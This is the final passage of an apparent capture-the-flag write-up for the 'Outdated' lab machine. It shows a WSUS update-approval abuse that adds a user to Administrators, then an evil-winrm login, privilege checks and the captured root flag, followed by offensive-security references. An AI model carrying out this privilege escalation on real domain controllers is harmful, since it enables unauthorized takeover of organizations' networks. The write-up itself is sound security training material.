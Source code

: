 ```powershell
Targeting dc.outdated.htb
TargetComputer, ComputerID, TargetID
------------------------------------
dc.outdated.htb, bd6d57d0-5e6f-4e74-a789-35c8955299e1, 1
Group Exists = False
Group Created: Administrators
Added Computer To Group
Approved Update

[*] Approve complete


➜  outdated evil-winrm -i outdated.htb -u 0xpthree -p Password123!
*Evil-WinRM* PS C:\Users\0xpthree\Documents> whoami
outdated\0xpthree

*Evil-WinRM* PS C:\Users\0xpthree\Documents> whoami /groups
Group Name                                 Type             SID          Attributes
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
a6c2f6e1b2d05b537f337ba2f8209413
```


## References
- <https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials>
- <https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/>
- <https://labs.nettitude.com/blog/introducing-sharpwsus/>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#wsus-deployment>
